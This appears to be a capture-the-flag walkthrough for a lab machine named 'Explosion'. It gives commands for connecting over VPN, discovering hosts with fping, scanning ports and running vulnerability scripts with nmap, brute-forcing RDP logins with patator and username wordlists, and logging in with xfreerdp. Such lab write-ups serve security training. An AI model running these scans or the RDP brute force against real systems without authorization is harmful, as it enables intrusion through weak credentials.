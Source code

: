 # Explosion Walkthrough
## Basic instruction to start the lab

###### Establish VPN connection
By using openVPN tool you can establish VPN connection.
```bash
openvpn blabla.ovpn
```
> Replace blabla.ovpn with your own VPN profile.

###### Test connection
One of the most popular to test the connectio between two end-points is ping.
```bash
ping <target_ip>
```
> Take in your considration, the way to test the connection and check if the host is live (ping). On the real life environment, most likely ping is denied on the network level or on the host to make identify hosr life harder.

```bash
fping -a -g 10.129.145.72/24 2> /dev/null | tee 00-fping-host-discovery.result
```
> I am usually depending on fping to discover the live hosts within specific ranges via ping method.

###### Scan the open ports and banner grabbing
nmap one of the most popular tool to scan the hosts and perform banner grabbing.
```bash
nmap -sS <host_ip> -A --osscan-guess

[Options]
-A: Enable OS detection, version detection, script scanning, and traceroute
--osscan-guess: Guess OS more aggressively
```

###### Run vulnerability scan via nmap
```bash
nmap -sS 10.129.145.72 -p 135,139,445,3389 --script vuln -oA 02-nmap-run-vuln-script.result
```

###### Bruteforce RDP via [patator tool](https://github.com/lanjelot/patator)
> Patator is exist amid the kali linux suite.
```
patator rdp_login host=10.129.145.72  0=~/Desktop/sec-lists/misc/SecLists-master/Usernames/top-usernames-shortlist.txt 1=~/Desktop/sec-lists/misc/SecLists-master/Usernames/top-usernames-shortlist.txt password=FILE1 user=FILE0 
```
> To solve the machine you have to find the correct credential.

> Connect RDP through xfreerdp `xfreerdp /v:<target_ip> /u:<username> /cert:ignore /p:<password>`

###### Weakness!
* Weak credentials.

<p align="center" text> Good Luck </p>
<p align="center" text> Kemet </p>

